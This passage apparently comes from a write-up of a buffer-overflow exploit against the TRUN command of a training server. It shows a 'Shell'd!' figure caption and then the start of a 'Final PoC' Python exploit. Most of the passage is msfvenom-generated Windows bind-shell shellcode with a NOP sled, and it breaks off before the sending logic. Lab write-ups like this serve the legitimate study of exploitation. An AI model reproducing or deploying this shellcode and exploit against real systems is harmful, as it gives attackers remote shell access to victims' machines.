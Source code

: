 <center><img src="/assets/images/trun_re/72.png" /></center>  
<center><i><small>Figure 55 - Shell'd!</small></i></center>  
<br/>

## Final PoC
```python
import socket
import sys
from struct import pack

# msfvenom -p windows/shell_bind_tcp LPORT=42069 -b "\x00" -f python -v bind EXITFUNC=thread
bind =  b"\x90" * 20
bind += b"\xb8\xdb\xd5\x91\xef\xda\xc5\xd9\x74\x24\xf4\x5a\x29"
bind += b"\xc9\xb1\x53\x31\x42\x12\x03\x42\x12\x83\x19\xd1\x73"
bind += b"\x1a\x61\x32\xf1\xe5\x99\xc3\x96\x6c\x7c\xf2\x96\x0b"
bind += b"\xf5\xa5\x26\x5f\x5b\x4a\xcc\x0d\x4f\xd9\xa0\x99\x60"
bind += b"\x6a\x0e\xfc\x4f\x6b\x23\x3c\xce\xef\x3e\x11\x30\xd1"
bind += b"\xf0\x64\x31\x16\xec\x85\x63\xcf\x7a\x3b\x93\x64\x36"
bind += b"\x80\x18\x36\xd6\x80\xfd\x8f\xd9\xa1\x50\x9b\x83\x61"
bind += b"\x53\x48\xb8\x2b\x4b\x8d\x85\xe2\xe0\x65\x71\xf5\x20"
bind += b"\xb4\x7a\x5a\x0d\x78\x89\xa2\x4a\xbf\x72\xd1\xa2\xc3"
bind += b"\x0f\xe2\x71\xb9\xcb\x67\x61\x19\x9f\xd0\x4d\x9b\x4c"
bind += b"\x86\x06\x97\x39\xcc\x40\xb4\xbc\x01\xfb\xc0\x35\xa4"
bind += b"\x2b\x41\x0d\x83\xef\x09\xd5\xaa\xb6\xf7\xb8\xd3\xa8"
bind += b"\x57\x64\x76\xa3\x7a\x71\x0b\xee\x12\xb6\x26\x10\xe3"
bind += b"\xd0\x31\x63\xd1\x7f\xea\xeb\x59\xf7\x34\xec\x9e\x22"
bind += b"\x80\x62\x61\xcd\xf1\xab\xa6\x99\xa1\xc3\x0f\xa2\x29"
bind += b"\x13\xaf\x77\xc7\x1b\x16\x28\xfa\xe6\xe8\x98\xba\x48"
bind += b"\x81\xf2\x34\xb7\xb1\xfc\x9e\xd0\x5a\x01\x21\x7a\xcf"
bind += b"\x8c\xc7\xe8\xe0\xd8\x50\x84\xc2\x3e\x69\x33\x3c\x15"
bind += b"\xc1\xd3\x75\x7f\xd6\xdc\x85\x55\x70\x4a\x0e\xba\x44"
bind += b"\x6b\x11\x97\xec\xfc\x86\x6d\x7d\x4f\x36\x71\x54\x27"
bind += b"\xdb\xe0\x33\xb7\x92\x18\xec\xe0\xf3\xef\xe5\x64\xee"
bind += b"\x56\x5c\x9a\xf3\x0f\xa7\x1e\x28\xec\x26\x9f\xbd\x48"
bind += b"\x0d\x8f\x7b\x50\x09\xfb\xd3\x07\xc7\x55\x92\xf1\xa9"
bind += b"\x0f\x4c\xad\x63\xc7\x09\x9d\xb3\x91\x15\xc8\x45\x7d"
bind += b"\xa7\xa5\x13\x82\x08\x22\x94\xfb\x74\xd2\x5b\xd6\x3c"
bind += b"\xf2\xb9\xf2\x48\x9b\x67\x97\xf0\xc6\x97\x42\x36\xff"
bind += b"\x1b\x66\xc7\x04\x03\x03\xc2\x41\x83\xf8\xbe\xda\x66"
```
